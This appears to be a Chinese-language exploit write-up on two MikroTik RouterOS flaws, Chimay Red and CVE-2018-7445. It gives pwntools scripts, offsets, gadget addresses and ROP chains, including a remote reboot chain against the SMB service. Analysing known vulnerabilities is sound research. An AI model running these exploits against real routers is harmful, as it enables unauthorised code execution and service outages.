Chimay Red 背景 该漏洞为Vault 7 中泄露的 RouterOs 漏洞
影响版本：Until RouterOS 6.38.4
分析 补丁对比

可见补丁之后的版本删除了alloca函数，获取 content-length 的值之后,传给了alloca进行分配内存。故可以利用alloca把栈抬高，修改栈以上的数据。
1 2 3 alloca内存分配函数 它的动作方式及功能跟malloc差不多，都是内存分配。如果函数A中的某个局部变量在定义时并不知道它有多大，那么就可以将需要使用的空间大小通过函数A的某个参数传递进来，在函数A内部使用alloca分配一块栈内存。alloca是在栈(stack)上申请空间,用完马上就释放,在调用alloca的函数返回的时候, 它分配的内存会自动释放。
利用 我们可以修改栈顶以上的数据，为了利用该漏洞，需要利用多线程实现的机制，不同线程拥有不同的线程栈， 而线程栈的位置就在进程的栈空间内。线程栈按照线程的创建顺序，依次在栈上排列，即线程栈之间是相邻的。线程栈的大小可以指定。默认大概是 8MB。
漏洞binary中线程栈的大小为0x20000。
当我们同时开启两个 socket 连接时，程序会创建2个线程来处理，此时进程的栈布局如下：

故此时在线程 1 中触发漏洞，我们就能修改线程 2 的数据。即在线程1中alloca一个很大的数，将esp抬高到线程2的栈空间，然后在线程2的栈空间覆盖线程2中的返回地址，从而劫持控制流。
首先确定offset
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from pwn import * def makeHeader(num): return "POST /jsproxy HTTP/1.1\r\nContent-Length: " + str(num) + "\r\n\r\n" s1 = remote("192.168.63.77", 80) s2 = remote("192.168.63.77", 80) s1.send(makeHeader(0x21000)) sleep(0.5) s2.send(makeHeader(0x100)) sleep(0.5) s1.send(cyclic(0x2000)) sleep(0.5) pause() s2.close()
因为是在线程2中触发漏洞，所以要切换到线程2中（下图在id为3）

多线程调试tips
1 set scheduler-locking off|on 在使用step或者continue命令调试当前被调试线程的时候，其他线程也是同时执行的，怎么只让被调试程序执行呢？通过这个命令就可以实现这个需求。off 不锁定任何线程，也就是所有线程都执行，这是默认值。 on 只有当前被调试程序会执行。
offset为3404

然后进行ROP
binary中没有system, 但有dlsym,于是思路变成了，通过字符串拼凑出system和system需要的参数，然后利用dlsym获取system的函数地址。
首先这里使用了 ret 0x1bb 用来把栈往下移动了一下，因为程序运行时会修改其中的一些值，导致 rop 链被破坏，把栈给移下去就可以绕过了。
1 2 3 4 5 payload = 'a'*3404 # ret 1bb 其中参数为1bb任意，这里找的gadget为 ret 0x1bb payload += p32(ret_1bb) # for bad string payload += p32(ret) payload += "A" * 0x1bb
然后我们使用strncpy拼凑我们想要的字符串
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 # build str system payload += p32(strncpy_plt) payload += p32(pppppr_addr) payload += p32(system_addr) payload += p32(0x0805ab58) # str syscall payload += p32(3) payload += "B" * 8 # padding payload += p32(strncpy_plt) payload += p32(pppppr_addr) payload += p32(system_addr + 3) payload += p32(0x0805B0AB) # str text payload += p32(2) payload += "B" * 8 # padding payload += p32(strncpy_plt) payload += p32(pppppr_addr) payload += p32(system_addr + 5) payload += p32(0x0805AD99) # str mage/jpeg payload += p32(1) payload += "B" * 8 # padding
通过调用 dlsym , 获取system函数，返回值在eax中，找一个jmp eax的gadget即可。
1 2 3 void* dlsym(void* handle,const char* symbol) 该函数在<dlfcn.h>文件中。 参数handle是由dlopen打开动态链接库后返回的指针，symbol就是要求获取的函数的名称，函数 返回值是指向函数的地址，供调用使用。
BigNerd95给出了一个针对Chimay Red的比较通用的利用https://github.com/BigNerd95/Chimay-Red
总结 多线程的漏洞利用，线程1中利用漏洞，在另一个线程中触发。strncpy 拼凑目标字符串的技巧。 dlsym(0, “system”) 可以用来获取函数地址。调试 rop 时，rop 链如被程序修改进而损坏，可以使用 ret * 之类的gadget绕过。
CVE-2018-7445 分析 cve描述

影响版本：before versions 6.41.3/6.42rc27
在处理NetBIOS会话请求消息时，MikroTik RouterOS SMB服务中发现缓冲区溢出。有权访问该服务的远程攻击者可利用此漏洞并在系统上获得代码执行权。溢出发生在身份验证发生之前，因此未经身份验证的远程攻击者可能利用此漏洞
我们以RouterOS_x86_6.38.4为例分析此漏洞，漏洞发生在/nova/bin/smb中的0x08054A76处的sub_8054A76()函数处。

函数原型
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 int parse_names(char *dst, char *src) { int len; int i; int offset; // take the length of the first string len = *src; offset = 0; while (len) { // copy the bytes of the string into the destination buffer for (i = offset; (i - offset) < len; ++i) { dst[i] = src[i+1]; } // take the length of the next string len = src[i+1]; // if it exists, then add a separator if (len) { dst[i] = "."; } // start over with the next string offset = i + 1; } // nul-terminate the string dst[offset] = 0; return offset; }
漏洞函数接收两个栈缓冲区作为参数，分别为dst和src，以src[0]作为复制的长度，并没有做任何过滤，于是可以传入一个超过dst长度的参数，从而造成缓冲区溢出。
利用 首先确保目标设备开启了smb服务


先确定溢出长度
1 2 3 4 5 6 7 8 9 10 11 12 import struct from pwn import * context(arch= 'i386', os = 'linux') NETBIOS_SESSION_REQUEST= "\x81" NETBIOS_SESSION_FLAGS= "\x00" data=cyclic(500) header = struct.pack("!ccH", NETBIOS_SESSION_REQUEST, NETBIOS_SESSION_FLAGS, len(data)) attack= header + data s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect(("192.168.63.77",139)) s.send(attack)

paddings长度为99


开了NX和ASLR,接下来构造ROP链
vdso里面包含int80，考虑用int80来调用sys_reboot，dump出vdso
1 dump memory smb.dump 0xffffe000 0xfffff000

找到我们需要的gadget

系统调用reboot的assemble如下
1 2 3 4 5 6 7 8 9 10 section .text global _start _start: mov eax,88 #sys_reboot的系统调用号 mov ebx,0xfee1dead mov ecx,0x28121969 mov edx,0x1234567 mov esi,0 int 0x80
rop链如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 p_edx_ecx_ebx_esi_edi_ebp = 0x080543e5 p_eax = 0x08048eec int_80 = 0xFFFFE422 payload = '\xff'*99 payload += p32(p_edx_ecx_ebx_esi_edi_ebp) payload += p32(0x1234567) #edx payload += p32(0x28121969) #ecx payload += p32(0xfee1dead) #ebx payload += p32(0) #esi payload += p32(0xdeadbeef) payload += p32(0xdeadbeef) payload += p32(p_eax) payload += p32(88) payload += p32(int_80) payload +=p32(0xdeadbeef) # ebp payload +=p32(0xdeadbeef) # edx payload +=p32(0xdeadbeef) # ecx